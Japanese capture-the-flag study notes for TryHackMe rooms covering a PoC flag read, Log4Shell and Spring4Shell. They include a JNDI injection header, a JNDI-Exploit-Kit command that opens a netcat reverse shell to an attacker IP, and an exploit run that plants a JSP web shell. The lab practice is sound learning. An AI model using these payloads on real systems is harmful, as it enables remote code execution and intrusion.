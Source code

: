 #### スクリプト

PoC を THM のルームから添付ファイルとしてダウンロード可能。

```sh
python ./poc.py http://10.10.84.202:8090 cat%20/flag.txt
```


## CVE-2021-44228 (Log4Shell)

https://tryhackme.com/room/solar

https://github.com/christophetd/log4shell-vulnerable-app/blob/main/README.md

- `log4j < 2.16.0`
- JNDI の悪用。NJDIは、2.16.0 で完全に無効化された。

### テスト

次のHTTPヘッダーを送って、接続が返れば脆弱性があると判断できる。ヘッダーの種類はAcceptだけとは限らない。

```http
Accept: ${jndi:ldap://<attacker-ip>:8888}
```

```sh
nc -lvnp 8888
```

### エクスプロイト

```sh
git clone https://github.com/pimps/JNDI-Exploit-Kit
cd JNDI-Exploit-Kit
java -jar JNDI-Exploit-Kit.jar -C "nc 10.11.146.32 8888 -e /bin/sh" -A "10.11.146.32"
```

```sh
$ curl http://lumberjack.thm -H 'Accept: ${jndi:ldap://10.11.146.32:1389/5wvdvn}'
```

## CVE-2022-22965 (Spring4Shell)

https://tryhackme.com/room/spring4shell

- JDK9 以上かつ Spring Core (<5.2 | 5.2.0-19 | 5.3.0-17)

[PoC](https://github.com/BobTheShoplifter/Spring4Shell-POC/)

```sh
# THMに添付のコードを使用
$ ./exploit.py http://10.10.41.118/

Shell Uploaded Successfully!
Your shell can be found at: http://10.10.41.118/tomcatwar.jsp?pwd=thm&cmd=whoami
```
